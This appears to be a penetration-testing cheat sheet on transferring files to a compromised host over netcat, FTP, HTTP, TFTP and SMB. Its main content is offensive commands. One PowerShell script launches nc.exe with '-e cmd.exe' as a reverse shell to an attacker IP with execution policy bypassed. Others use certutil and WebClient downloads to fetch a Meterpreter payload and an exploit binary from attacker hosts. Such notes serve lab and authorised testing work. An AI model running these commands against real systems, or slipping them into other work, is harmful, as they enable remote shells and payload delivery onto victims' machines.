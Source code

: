 # File transfert


## Nc

Windows

Upload nc.exe or nc64.exe

    /usr/share/windows-binaries/nc.exe


Run reverse netcat connection and connect to attacker:

    echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
    echo $computer = "User-PC" >> script.ps1
    echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
    powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1



## Ftp

Server Linux

    pip install pyftpdlib
    python -m pyftpdlib -p 21


Client

    ftp 10.10.10.4


Script client

    echo open 10.10.14.6>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get ms15051.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt

## Http

Server Linux

    $ python -m SimpleHTTPServer 8000

    $ php -S localhost:8000 -t foo/
  
Client Unix

    wget, fetch, ftp, tftp

Client windows : certutil.exe


    certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip


Client windows : powershell System.Net.WebClient

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')"


    echo $storageDir = $pwd > upload.ps1
    echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
    echo $file = "$storageDir\nc.exe" >> upload.ps1
    echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
    powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1



## Tftp

Server (Complicated to configure...)

    service atftpd start



Metasploit, like with FTP, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT

Client

    tftp -i A.B.C.D GET filename

New version of windows: activate it : 

    pkgmgr /iu:"TFTP" 



## SMB server

Enter smbserver.py, part of the Impacket project [https://github.com/SecureAuthCorp/impacket] 
[tools/impacket-impacket_0_9_19.zip]

To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

    $ python smbserver.py ROPNOP /root/shells


client

    smbclient -L 10.10.14.30 --no-pass
    net view \\10.10.14.30
    dir \\10.10.13.30\ROPNOP
    copy  \\10.10.13.30\ROPNOP\file.exe .


